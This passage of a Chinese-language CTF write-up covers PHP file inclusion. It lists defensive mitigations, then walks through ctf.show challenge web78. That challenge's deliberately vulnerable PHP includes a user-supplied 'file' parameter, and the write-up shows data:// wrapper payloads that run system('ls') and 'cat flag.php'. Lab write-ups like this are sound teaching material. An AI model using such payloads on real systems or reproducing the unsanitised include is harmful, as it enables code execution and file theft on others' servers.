 ![1](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230725164357146.png)

### 文件包含漏洞防护

1、使用**str_replace**等方法过滤掉危险字符

2、配置open_basedir，防止目录遍历（**open_basedir 将php所能打开的文件限制在指定的目录树中**）

3、php版本升级，防止%00截断

4、对上传的文件进行重命名，防止被读取

5、对于动态包含的文件可以设置一个白名单，不读取非白名单的文件。

6、做好管理员权限划分，做好文件的权限管理，**allow_url_include和allow_url_fopen最小权限化**

## 靶场题目：

### [web78]php伪协议

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 10:52:43
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 10:54:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

通过php伪协议来读取文件目录：

```
http://44a76034-124a-4121-952d-6773e75c37d4.challenge.ctf.show/?file=data://text/plain,<?php system('ls');?>
```

读取flag内容：

```
http://44a76034-124a-4121-952d-6773e75c37d4.challenge.ctf.show/?file=data://text/plain,<?php system('cat flag.php');?>
```
